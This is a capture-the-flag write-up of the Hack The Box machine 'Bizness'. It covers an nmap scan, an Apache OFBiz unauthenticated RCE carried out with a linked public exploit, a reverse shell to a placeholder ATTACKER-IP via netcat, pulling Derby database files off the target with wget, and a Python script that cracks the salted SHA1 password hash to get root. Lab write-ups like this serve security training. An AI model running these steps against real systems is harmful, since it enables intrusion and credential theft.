 # **Bizness | HTB**

***
## **Difficulty = Easy**


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/db5be50c-eaa2-44a8-9160-d1e32ab85367)

***

Running our nmap scan we have -:


```bash
# Nmap 7.94SVN scan initiated Sat Feb  3 22:30:51 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.11.252
Increasing send delay for 10.10.11.252 from 0 to 5 due to 127 out of 317 dropped probes since last increase.
Increasing send delay for 10.10.11.252 from 5 to 10 due to 103 out of 257 dropped probes since last increase.
Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.252
Host is up (0.17s latency).
Not shown: 59091 closed tcp ports (conn-refused), 6440 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
|_SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|_  http/1.1
38857/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  3 22:33:52 2024 -- 1 IP address (1 host up) scanned in 181.03 seconds
```





 Navigating to port 443 we have a https://bizness.htb website, in which we can go ahead and add to our `/etc/hosts` folder


![](https://i.imgur.com/Qi6A6ah.png)

 Nothing seems to show up in source code analysis but running directory bruteforce we have a login panel URL


![](https://i.imgur.com/Bt3tdqI.png)



Navigating to the URL we truly have a login panel, in which we don't have any usernames nor passwords yet



![](https://i.imgur.com/lLrGX8D.png)



Source Code analysis shows the version of the technology and it name called "**Apache OFBiz**"(18.12)



![](https://i.imgur.com/KOrYvD8.png)


Made more enumeration and found an exploit to ofbiz unauthenticated RCE -:


[CVE-2023-51467 and CVE-2023-49070 POC](https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz)


> An unauthenticated attacker can use this vulnerability to successfully take over Apache OFBiz.


To exploit this, first of all download this `.jar` file with the following command


```bash
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

Then start up your listener on port 1337 with netcat and run the exploit as follows


```bash
# Start listener
nc -lvnp 1337

# Launch exploit
python3 exploit.py https://bizness.htb shell ATTACKER-IP:1337
```



![](https://i.imgur.com/rFBUU1I.png)


Running `linpeas.sh` i was able to gather few important directories

```
1. /var/lib/apt/
2. /opt/ofbiz/.github/workflows/
3. /opt/ofbiz/runtime/data/derby/ofbiz/log/           
4. /opt/ofbiz/runtime/logs/
```


The directory with the listing of `3.` (derby) had important `.DAT` files go ahead and download them Recursively with `python` and `wget`



```bash
# Target machine
python3 -m http.server 1337

# Attacker machine
wget -r 10.10.11.252:1337/
```


After some few enumeration on this files, i found out that where some hashes stored in most of the files


![](https://i.imgur.com/Zk3ySX1.png)


```
strings *.dat | grep SHA
```


Cracking this hash with `hashcat` or `JRP` does not even work, asked for few hints and was told that the hash was hashed with this java [Function](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java)
Then i Holla a friend since i ain't pretty good at `python` and then they made this up for me using the hashlib, base64 and os library to decrypt this hash 




```python
import hashlib  
import base64  
import os  
def cryptBytes(hash_type, salt, value):  
    if not hash_type:  
        hash_type = "SHA"  
    if not salt:  
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')  
    hash_obj = hashlib.new(hash_type)  
    hash_obj.update(salt.encode('utf-8'))  
    hash_obj.update(value)  
    hashed_bytes = hash_obj.digest()  
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"  
    return result  
def getCryptedBytes(hash_type, salt, value):  
    try:  
        hash_obj = hashlib.new(hash_type)  
        hash_obj.update(salt.encode('utf-8'))  
        hash_obj.update(value)  
        hashed_bytes = hash_obj.digest()  
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')  
    except hashlib.NoSuchAlgorithmException as e:  
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")  
hash_type = "SHA1"  
salt = "d"  
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="  
wordlist = '/usr/share/wordlists/rockyou.txt'  
with open(wordlist,'r',encoding='latin-1') as password_list:  
    for password in password_list:  
        value = password.strip()  
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))  
        # print(hashed_password)  
        if hashed_password == search:  
            print(f'Found Password:{value}, hash:{hashed_password}')
```


![](https://i.imgur.com/AemGRaE.png)


Funny enough this password gave us access as user root


![](https://i.imgur.com/i30RpVU.png)




**_Things i Would take good note of_ -:**


- Get much better at python
- Patience is key, wouldn't have found those hashes if i wasn't careful with my `linpeas` result and wasn't also looking out for it in the main logs folder



GG

![](https://i.pinimg.com/originals/bb/83/ac/bb83ac696e85c4710a5b89c6d6eeac81.gif)

